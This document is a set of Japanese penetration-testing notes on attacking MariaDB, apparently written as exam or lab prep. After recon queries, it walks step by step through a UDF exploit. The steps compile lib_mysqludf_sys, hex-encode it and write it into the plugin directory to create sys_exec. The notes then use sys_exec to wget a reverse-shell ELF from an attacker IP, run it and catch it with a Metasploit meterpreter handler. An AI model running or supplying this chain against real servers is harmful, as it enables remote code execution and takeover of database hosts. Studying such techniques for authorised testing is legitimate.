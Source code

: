 # MariaDB

* ログイン

  ```
  mysql --host=127.0.0.1 --port=13306 --user=wp -p
  ```

  

* 情報収集

  ```mariadb
  SHOW Grants;
  ```

  ※"*"の権限があるとより良い

  ```mariadb
  show variables like '%plugin%';
  ```

  →ディレクトリが設定されていること
  
  ```mariadb
  show variables like '%secure_file_priv%';
  ```
  
  →空白であること。設定されている場合、設定ファイルを修正用。権限がない場合が多い
  
  ```bash
  find ./ -name 'my.ini' 2>/dev/null
  find ./ -name 'mysql.oni' 2>/dev/null
  ```
  
  

* 脆弱性調査

  ```bash
  searchsploit mariadb
  searchsploit mysql
  ```



### UDF(User Defined)エクスプロイト

MySQLのカスタム関数を作成し、システムコマンドを含むほとんどすべてのコードを実行する

* シェルスクリプトをダウンロードする

  ```bash
  git clone https://github.com/mysqludf/lib_mysqludf_sys.git
  cd lib_mysqludf_sys/
  ```

* libmysqlclient15-dev をインストールする

  ```bash
  sudo apt update && sudo apt install default-libmysqlclient-dev
  sudo apt install default-libmysqlclient-dev
  ```

* 古いオブジェクトファイルを削除

  ```bash
  rm lib_mysqludf_sys.so
  ```

* Makefileを修正する

  ```makefile
  LIBDIR=/usr/lib
  
  install:
  	gcc -Wall -I/usr/include/mariadb/server -I/usr/include/mariadb/ -I/usr/include/mariadb/server/private -I. -shared lib_mysqludf_sys.c -o lib_mysqludf_sys.so
  ```

  * Wallフラグ：gccの警告メッセージをすべて有効
  * -Iはヘッダーファイルのディレクトリを含める

* コンパイルする

  ```
  make
  ```

  * ライブラリがなければ再度apt installを試してみる
  * それでもなければネットからダウンロードして-Iオプションで指定したディレクトリ配下に追加する

  * __WINエラの対処法

    ![image-20230125210644950](img/mariadb/image-20230125210644950.png)

    https://forums.offensive-security.com/showthread.php?38783-24-3-2-make-failed-(missing-m_ctype-h)/page4&p=190865#post190865

* データベースに登録するためにhexdumpを出力する

  ```bash
  xxd -p lib_mysqludf_sys.so | tr -d '\n' > lib_mysqludf_sys.so.hex
  ```

  -p：プレーンなhexdumpを出力

   tr を使って改行文字を削除

* MariaDBにシェルコード用の変数を作成する

  ※hexファイルの出力の先頭に`0x`を付けて定義する(MariaDBがテキストをバイナリとして読み取るために必要なもの)

  ```mariadb
  set @shell = 0x7f454c4602010100000000000000000003003e00010000000000000000000000400000000000000070390000000000000000000040003800090040001c001b000100000004000000000000000000000000000000000000000000000000000000b009000000000000b009000000000000001000000000000001000000050000000010000000・・・・・・・・・・・・・・・・・・・・000001100000003000000000000000000000000000000000000007c38000000000000f100000000000000000000000000000001000000000000000000000000000000;
  ```

* プラグインディレクトリの場所を確認

  ```bash
  select @@plugin_dir;
  ```

* シェル変数を攻撃対象ホストのプラグインフォルダに出力

  ```mariadb
  select binary @shell into dumpfile '/home/dev/plugin/udf_sys_exec.so';
  ```

  ※ファイル名には好きな名前を付けることができる

* 関数を作成する

  ```mariadb
  create function sys_exec returns int soname 'udf_sys_exec.so';
  ```

* 関数ができたか確認する

  ```bash
  select * from mysql.func where name='sys_exec';
  ```

* リバースシェルを配送して実行する

  ```mariadb
  select sys_exec('wget http://192.168.119.153');
  select sys_exec('wget http://192.168.119.153/shell_2.elf');
  select sys_exec('chmod +x ./shell_2.elf');
  ```

  ```bash
  exit
  sudo msfconsole -q -x "use exploit/multi/handler;\
               set PAYLOAD linux/x86/meterpreter/reverse_tcp;\
               set LHOST 10.11.0.4;\
               set LPORT 443;\
               run"
  ```

  ```ddmariadb
  select sys_exec('./shell_2.elf');
  ```